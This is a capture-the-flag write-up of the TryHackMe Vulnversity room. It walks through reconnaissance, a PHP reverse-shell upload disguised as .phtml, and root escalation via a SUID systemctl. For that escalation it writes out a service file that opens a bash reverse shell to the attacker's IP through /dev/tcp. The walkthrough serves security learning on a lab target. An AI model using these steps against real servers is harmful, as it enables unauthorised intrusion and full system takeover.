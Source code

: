 This weekend I completed the Vulnversity room. 
This room was an introductory room. 

It was a webserver exploitation based on PHP and then privilege escalation through their ubuntu web server.

In summary, the server had an upload port where we uploaded a reverse PHP shell, then through this shell escalated our privilages to root using a misconfigured permission on the systemctl program within the Ubuntu server.

Note I have not included the basic setup steps for TryHackMe. 
Initially I started usinmg the provide 'AttackBox' from TryHackMe, but part way I ended up using my open Kali linux box connected via the VPN.

Here is how it went:

#Step 1: Reconnaissance

##Basic reconnaissance was performed using NMAP. 

The open ports discovered with NMAP:

![image](https://user-images.githubusercontent.com/60744763/120154230-ffc22900-c232-11eb-88a2-8df3177cc8b7.png)

Then I looked at the versions of the services with these open ports using the -sV flag with NMAP

![image](https://user-images.githubusercontent.com/60744763/120154311-18cada00-c233-11eb-9682-38c0e05c6c73.png)

We can see Apache running on port 3333, this will be our attack vector. 

From here we use GoBuster to look for interesting directories on the web server. I  used a brute force method with different word lists.
After trying with a few word I found some interesting folders.

![image](https://user-images.githubusercontent.com/60744763/120154589-634c5680-c233-11eb-8896-7a0501b2bcee.png)

From here we discovered the 'internal' folder, browsing to this showed us an upload portal.

![image](https://user-images.githubusercontent.com/60744763/120154708-7a8b4400-c233-11eb-8603-b287a43fd81b.png)

*Note at this point I changed over to my Kali linux box and reset the target machine, as such the IP address changed.*

#Step 2: Attempt to deliver a pay load and compromise the server

I use Burp to try and findout what types of file extensions I can be uploaded, hoping for a PHP based file. 
Using Burp's sniper attack allows me to try various file extensions very quickly. 
 
![image](https://user-images.githubusercontent.com/60744763/120155034-cf2ebf00-c233-11eb-88b3-a73405d0430d.png)

This identified that .phtml files can be uploaded, see above.

##No we deliver the payload:

I uploaded a php reverse shell as a .phtml file using the target's upload page. 
I edited the reverse shell script variables so it points to my Kali linux’s IP and port. 
The reverse shell was from here: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php 

Then I setup another netcat listener with this command: `nc -lvnp 1234`
This will listen for a connection on port 1234. 
*Note the php reverse shell must be set with this port and my IP address so it can make a connection.*

Then I went to the url http://10.10.151.175:3333/internal/uploads/php-reverse-shell.phtml to run the script I just uploaded. 

Seconds later I received a connection on my netcat listener!
We can see below the reverse shell has made a connection back to my kali box.

![image](https://user-images.githubusercontent.com/60744763/120155466-33ea1980-c234-11eb-81fe-00558f14202d.png)

And now I have shell access! 

Searching around on this server, I found the first flag in the user's home folder.

![image](https://user-images.githubusercontent.com/60744763/120155639-6267f480-c234-11eb-9e0a-4a654587ef5a.png)

#Step 3: Privilege Escalation

Now we want to attemp to get root access. I will look for files with the SUID bit set, maybe one of them can be exploited.

I used the command `find . -perm /4000` to files with the SUID permissions set. 
This showed that `systemctl` had the sticky-bit set, which is not normal. As a normal user can stop, start and even create services.

At this point my plan is to create a service that launches a shell which I can access with the systemctl command. 
Now researching how to do this...

I found this article which discusses making a reverse bash shell service to exploit systemctl.
https://medium.com/@klockw3rk/privilege-escalation-leveraging-misconfigured-systemctl-permissions-bc62b0b28d49 


I created a file called root.service file as below, which will be my service file:
`[Unit]
Description=root

[Service]
Type=simple
User=root
ExecStart=/bin/bash -c 'bash -i >& /dev/tcp/10.4.37.95/9999 0>&1'

[Install]
WantedBy=multi-user.target
`
I named the file with a phtml extension and uploaded it through the site (this was quicker than using the nc terminal to create the service file).

Then I renamed the uploaded file from my active shell on the webserver to root.service. 
Then I ran the following command to create the appropriate symlinks and allow the system to run the service: 
`systemctl enable /var/www/html/internal/uploads/root.service`

![image](https://user-images.githubusercontent.com/60744763/120155982-cc809980-c234-11eb-94ba-2cb1ab4b9bb9.png)

Now we have created a new service which should launch a reverse shell back to my kali box.

At this point I opened another netcat listener on port 9999 (as per the root.service) on my Kali box. 
After this I started the service on the webserver shell with the command `systemctl start root.service`

Presto! The service connected back to my Kali machine with the reverse shell as root. See below...

![image](https://user-images.githubusercontent.com/60744763/120156128-005bbf00-c235-11eb-9ddf-8ac81e94314a.png)

The flag was found in the folder /root/



